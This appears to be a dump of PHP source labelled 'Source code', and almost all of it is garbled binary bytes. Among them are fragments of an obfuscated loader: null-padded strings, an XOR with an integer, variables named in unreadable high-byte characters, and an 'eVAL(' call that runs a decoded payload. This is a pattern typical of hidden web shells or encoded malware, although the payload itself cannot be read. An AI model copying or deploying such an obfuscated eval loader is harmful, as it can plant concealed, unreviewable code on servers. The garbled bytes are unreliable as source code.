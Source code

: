 zB~TyF���-s��?�հ�~����q]��z' . "\0" . '�~���P^7�j:�و����R��9�����rl��+��(�' . "\0" . '?�e�.���6ݧ*@�\\�G.���ɞ�9+J�D�D�U��I�p����j���+c��v�>]},�,"t<�ϙ/���N���qo�����#�ѳv��������.ୠ�>��t�\'�-9[(�c/IvV}y@�|��
9���@\\�B�,���D f9༼��N�}N
�m(�r&i�B4���wzl��D�]Ȅ���
�>Ҙ������֊��µ�
M�����y�� ��2��;�`�.�9�l.���QZ�ӟB1���1*G���G
�R.	' . "\0" . '�
�dѶ5;��m$�j��zQk�x��c�eL���e��8����Y|<.�k�0�' . "\0" . '��x����.�
}�b���Dk�CP��A6U�*�rJ!���SkLd�����vA$o���L��T�bv`(�����A
' . "\0" . '' . "\0" . ''))^(int)$�����������߱ؾ������ڻ辽��ع¨�����ѻ����ϼ�ܬ����˟������à�ٲ��Ҧ��ԧ���������ù������«�ڪ�����������('�' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '3636' . "\0" . 'b��A' . "\0" . '' . "\0" . '' . "\0" . ''));$�ߺ��˩�߳���̳���������ऴ�����ܬݸض�������͟���������Ҫر�����ݷ�����מ�޸������Π�ߪ��њ��颚���������=$������ϱ�կ����槴���⭦���س�������̻�����Ѳ��Ω����Ү���˰�����������ۿ�޹̯�����������ļ˟�������Ծ�ǡ㛮(eVAL($�����������߱ؾ������ڻ辽��ع¨�����ѻ����ϼ�ܬ����˟������à�ٲ��Ҧ��ԧ���������ù������«�ڪ�����������('�' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '�Vk8������W�ס��!�9,:�[$r�:��攈���7R1���aÜg�l��`���f��<ff��������_�繞��}?��\\�}�����u-�v)6opm�z�T[�#�D
��eL�P�1�+P["�@Z_��$7�k�k�\\�i���t\\� xH/\'�J[�W0���΁Z,z��,m��t�Lӻ�T����$���@#��):��~Ox��7���UX	��`�h�o�׵�z-�����נ@��������]a�X��0h7�D+q�1��J���Gö#�e���E<��D�n��' . "\0" . '�o�hW�aW�&Z����PN�' . "\0" . '3�N���Gr�n|��zd�ɽ]}�PgT��բ�N�=�!���?=�`�~g��"�K�_�
�%G' . "\0" . 'u��S�z\\>&�����TQ�Ԓ�	�=�޲;J��#���r0�,2\'M9�}
��!�����]D��b�~���MN��Ɔ��-���;W��*hr����F��HGBf��/���S���}<��
C��' . "\0" . '�S�dO�<+�a;
vp�h9�g�rEgB��JU�!>@�f��v�K�i2���Ky�zbLۢ�R�\'���\\!X�>�t
�3͕x�V�u��\\�h���RЪ�B8A��F��)��(uٿO	�9r�g߳�#��w�����%�j��[�������)�oo�<�<��f�_��:z�.�loO��k;��5E�U+iOB\'ߡ��m�˵~���ǙkE�ج%��ف�O�$��gi�\\Sy{e.@�􏖚�t���b�c�zŰ�e���4Oo"�r�2��+��(]U֙�%S�9KW�Ղ���/�zz����[6�Y�4��9��U�g��2?�@D���EԴ+r��\'٫�>{SNDx��m|f��FnI�m-�Zۣ�+��Ej ��>����z��Y����q�$�?�zv��ۙ_�	��WNܹs;jy�B�!𶥮�s ��\'!���WF!*�;���sՑ��g�_�yD���w=�o�Y�}�M
�����v��������>-�ܛT?U���}Q��Z�#Ա����{�_�p����>���:o5b��,s��Z�?M�ka��\'�$��}в�G�_�n���3	�j�*���]}�\\������s��(W���ToD����E��S��_ 
֜�P�]��������M����l{���W|�ըzJ�SV�C��	x���aj��S�z�w�����AQ�' . "\0" . '�$?���~f/YH���8�T�zQ�B#
���' . "\0" . 'j�O<M�>7���^������2�
o��\\qq����">�I*�\\"�����0-fň�I���h�v[���}���F�rVpݔ5�>V���:~E/�vd�k�֔�~P	��>S杆V�ޕ�`�`vH�uʻL%IA3�%]:t�w�t��c,�rʌ6zakF������KϼDK�5q��p�
=F� �SuN׵��ӳ�/Z�h^��lb�1�J�:�o��rX��`�hPs0@E#C���CM�H˫\'쒥�*����NN(�{ćyv��^��?�VE%ǻS��t�c�� E4�	�o����P����HNh�\\��=�-�/�~�e��S�@�-�*�1E�\'��R�D��' . "\0" . '��]�W�P2�.�-��#\\�Js|{�CJxB*�w���i��:�]ZjjϡI|s!���B����el��cy�V7�����;��sI��G' . "\0" . '���\\Mo��*' . "\0" . '(n�B���>/?�b�����݃���4J^d�
�' . "\0" . '�zY����n?� �����Hן%ש��>y�a��\\���S�iVQ�H�U}slPº���w�Kհ,���Bj����ѣ  �ݤ�%G�����G���qIH����\\������
�Bܤ��������dz�@���K?�T��8���(A�z���^��w56�o��|ŀ(J���8�/��
%_[��p�n���>pB��x>�b$N�Q�+LB:&�!P\'p��I����ŷV)
Џ@�{(G�R+��<��^��߼d����RٲA>E:N#=�YP�lk�L�ɋK�-?�����\'
�
�E�BFM������ٳR|���`��7��^�$
�Ӻ����On�N�!s���"��^D�	��m�U�ʭ�/�RTUԎ���ɓ�F�\'xz�L_����7$�+�K�=�s�2-�Jq��������a9��[�Ӷ��5�TA������A-g\\�S�i@�+Û����{�6�w|)Ƶ�!J�}� �Q|�}�` ����\\���}/�or.83�"v���jȿ\'�k�~c�^ O��_V5^�w��
��Pr%j����!�(�����c��!h;�9���<B���l' . "\0" . '���X�jw���\\��ߌ�~y(�H��-Ti��VG\\�P�\\�N���=kx���r��uؼ����U��|��V�A�/�f�3NbD���y�=�=��>^{e���Q�/��t�^zC�6�f�(��l{2(�#�gB5���@������F���c�1\\=,yGx(�r�������' . "\0" . '' . "\0" . '?���Z-b�r/s2TS��N�ɟ�U��,����`F{oE�v�E78+\\b��K����܁�b
��[�nf�J)t6G�i��&S��m��T*�y�Z>��)ϣ��p�����4�1��ԯ�x�����_��d��>
$��osS�*�t�e��/�_v<nY����Țj��BJB�ⴱR����G!���G�j]��^E�p�mEB���H��QY�Tl��S3����5�d��oM�@
�O�������ȕ�h�Q�����Tx��V���|
��0�uE+��1ӆ@�O��iE�R����*t�ػ�`ռ�p0��s��\\�L���hrF�ݾ�Y��s��4��zb������˭��i�:_��P�9��[��2�β��<��>_���`}��9؛���c�d�XG�����m����u�G��}q�' . "\0" . ',�׼r�*�՛�$u~��\'-~�^�j	+Yx%09���"�ڸ�������l�ᾲ�~�����Hl1r���f�����yx�m���)e��n֤mt��G�
��L��S�xw�_�9�@lI�#��F�����uhF-�@��J
��Kp��n������
�?��Y.Q�!	_|���p6�|\'���I��*���4f�5�*z1}���)i3����$��)�\\}V�(c���P
��